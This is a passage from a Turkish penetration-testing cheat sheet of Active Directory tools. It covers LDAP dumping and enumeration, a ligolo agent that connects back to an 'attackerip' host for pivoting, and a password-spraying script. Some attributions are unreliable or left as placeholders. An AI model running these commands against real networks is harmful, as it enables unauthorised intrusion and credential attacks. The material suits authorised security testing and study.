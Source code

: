 
## 37. ldapdomaindump
**Kısa Tanım**: LDAP üzerinden AD objelerini JSON/HTML formatta dump eden Python aracı.  
**Usage**:
```bash
ldapdomaindump -u domain\\user -p pass 10.0.0.10
```
**GitHub**: [https://github.com/dirkjanm/ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)

---

## 38. ldapsearch
**Kısa Tanım**: OpenLDAP’ın CLI sorgu aracı, AD’de LDAP istekleri yapmak için de kullanılabilir.  
**Usage**:
```bash
ldapsearch -x -H ldap://10.0.0.10 -b "DC=domain,DC=local" "(objectClass=user)"
```
**GitHub**: [https://www.openldap.org](https://www.openldap.org)

---

## 39. ldeep
**Kısa Tanım**: LDAP tabanlı AD enum aracı, user/group/ACL/Trust bilgisi toplar.  
**Usage**:
```bash
python3 ldeep.py --domain domain.local -u user -p pass
```
**GitHub**: [Araştırınız – icsharpcode/ldeep vb.]

---

## 40. ligolo
**Kısa Tanım**: Reverse Tunneling/Pivoting aracı (Agent & Relay). AD ağında pivot amaçlı.  
**Usage**:
```bash
# Server
ligolo relay -listen 0.0.0.0:9999
# Client
ligolo agent -connect attackerip:9999
```
**GitHub**: [https://github.com/sysdream/ligolo](https://github.com/sysdream/ligolo)

---

## 41. LockLess
**Kısa Tanım**: Hesap kilitlenmesini önlemeye odaklı password spray script’i.  
**Usage**:
```bash
python3 lockless.py --users users.txt --password Pass123
```
**GitHub**: [Araştırınız]

---